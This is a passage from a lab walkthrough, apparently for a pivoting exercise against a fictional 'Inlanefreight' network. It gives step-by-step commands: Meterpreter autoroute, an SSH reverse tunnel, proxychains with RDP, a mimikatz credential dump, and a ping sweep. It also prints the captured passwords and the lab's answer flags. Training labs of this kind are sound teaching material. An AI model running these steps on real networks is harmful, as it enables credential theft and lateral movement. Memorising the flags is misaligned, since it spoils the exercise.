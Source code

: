 ```
# This will bind session 1 to the $NewSubnet discovered in the victim's machine 1, doing the pivoting

# It is also possible to add routes with autoroute by running autoroute from the initial Meterpreter session (session 1):
sessions -i 1
run autoroute -s $NewDiscoveredIp/16

# List the active routes:
run autoroute -p

# 8. Make sure that you will get back the communications with a reverse proxy:

ssh -i id_rsa $username@$ipUbuntuCompromisedmachine -R $ipUbuntuCompromisedmachine:8080:0.0.0.0:8000

# 9. Finally, use proxychains to route our RDP session traffic via our Meterpreter session.
proxychains xfreerdp /v:172.16.5.35 /u:mlefay /p:"Plain Human work\!"

```

Results: S1ngl3-Piv07-3@sy-Day


**In previous pentests against Inlanefreight, we have seen that they have a bad habit of utilizing accounts with services in a way that exposes the users credentials and the network as a whole. What user is vulnerable?**

```
# 1. Copy mimikatz to the Windows machine 1 with CTLR-C CTRL-V. Then in the Powershell terminal
.\mimikatz.exe privilege::debug  sekurlsa::logonpasswords     

# You will see user vfrank and password
vfrank:Imply wet Unmasked!
```

Results: vfrank


**For your next hop enumerate the networks and then utilize a common remote access solution to pivot. Submit the C:\Flag.txt located on the workstation.**

```
# 1. Open CMD and enumerate network interfaces
ipconfig /all

# 2. Notice a new network range: 172.16.6.35. Enumerate new Ips in that new network range
for /L %i in (1 1 254) do ping 172.16.6.%i -n 1 -w 100 | find "Reply"
# As a result now we have 172.16.6.25

# Note: I had problems with the Poweshell enumerator. For some reason this did not work for me:
1..254 | % {"172.16.6.$($_): $(Test-Connection -count 1 -comp 172.15.6.$($_) -quiet)"}

# 3. Windows-R and mstsc.exe. Enter 172.16.6.25 and use the creds vfrank:Imply wet Unmasked!

```

Results: N3tw0rk-H0pp1ng-f0R-FuN

**Submit the contents of C:\Flag.txt located on the Domain Controller.**

```
# 1. In the previously open session, open a windows explorer and notice the shared unit Z:\

```

Results: 3nd-0xf-Th3-R@inbow!

